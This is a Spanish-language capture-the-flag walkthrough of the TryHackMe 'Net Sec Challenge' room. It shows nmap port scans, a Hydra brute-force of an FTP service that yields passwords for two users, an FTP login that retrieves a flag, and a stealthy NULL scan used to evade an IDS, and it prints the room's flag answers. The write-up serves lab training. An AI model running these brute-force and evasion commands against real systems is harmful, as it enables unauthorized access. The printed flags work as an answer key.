

# Net Sec Challenge



Maquinas que vamos a utilizar Kali Linux y  https://tryhackme.com/room/netsecchallenge

Mi IP: `10.21.203.172`

```bash
ifconfig
```


IP maquina victima: `10.10.54.6`


---

- Vamos a enumerar los puertos abiertos de la maquina victima
    
    ```bash
    sudo nmap -p- -sS -sV -sC --open -min-rate 5000 -n -vvv -Pn 10.10.54.6 
    ```
    
    
    
    **De esta captura podemos contestar las siguiente preguntas:**
    
    - ¿Cuál es el número de puerto más alto abierto por debajo de 10,000?
        
        `8080`
        
    - Hay un puerto abierto fuera de los 1000 puertos comunes; está por encima de 10,000. ¿Cuál es?
        
        `10021`
        
    - ¿Cuántos puertos TCP están abiertos?
        
        `6`
        
    - ¿Qué es la bandera oculta en el encabezado del servidor HTTP?
        
        `THM{web_server_25352}`
        
    - ¿Qué es la bandera oculta en el encabezado del servidor SSH?
        
        `THM{946219583339}`
        
    - Tenemos un servidor FTP que escucha en un puerto no estándar. ¿Cuál es la versión del servidor FTP?
        
        `vsftpd 3.0.5`
        
    
- Tenemos dos posibles nombres de usuario para el FTP. vamos a intentar sacar la contraseña con hydra.
    
    ```bash
    hydra -l eddie -P /usr/share/wordlists/rockyou.txt -s 10021 [ftp://10.10.54.6](./imagenes/NetSecChallenge/ftp://10.10.54.6/)
    ```
    
    
    
    **login: `eddie`   password: `jordan`**
    
    ```bash
    hydra -l quinn -P /usr/share/wordlists/rockyou.txt -s 10021 [ftp://10.10.54.6](./imagenes/NetSecChallenge/ftp://10.10.54.6/)
    ```
    
    
    
    **login: `quinn`   password: `andrea`**
    

- Vamos a entrar con las credenciales que tenemos al FTP
    
    ```bash
    ftp 10.10.54.6 10021
    ```
    
    
    
    En la cuenta del usuario eddie. No encantamos nada.
    
    
    
    Tenemos éxito con la cuenta de quinn
    
    - Leemos el archivo ftp_flag.txt
        
        `get ftp_flag.txt -`
        
        
        
        Flag: `THM{321452667098}`
        

- Nos pide que veamos el contenido del puerto 8080. Abrimos el navegador web con la siguiente URL: `http://10.10.54.6:8080/`
    
    
    
    **Nos dice**: Tu misión es usar Nmap para escanear 10.10.54.6 (esta máquina) de la manera más encubierta posible y evitar ser detectado por el IDS.
    

Parece que según sea el escaneo con el nmap las cifras cambian y no deben volverse rojas. Si lo logramos nos dará una Flag.


- Vamos a intentarlo
    
    ```bash
    nmap -sN 10.10.54.6
    ```
    
    
    
    
    
    Flag: `THM{f7443f99}`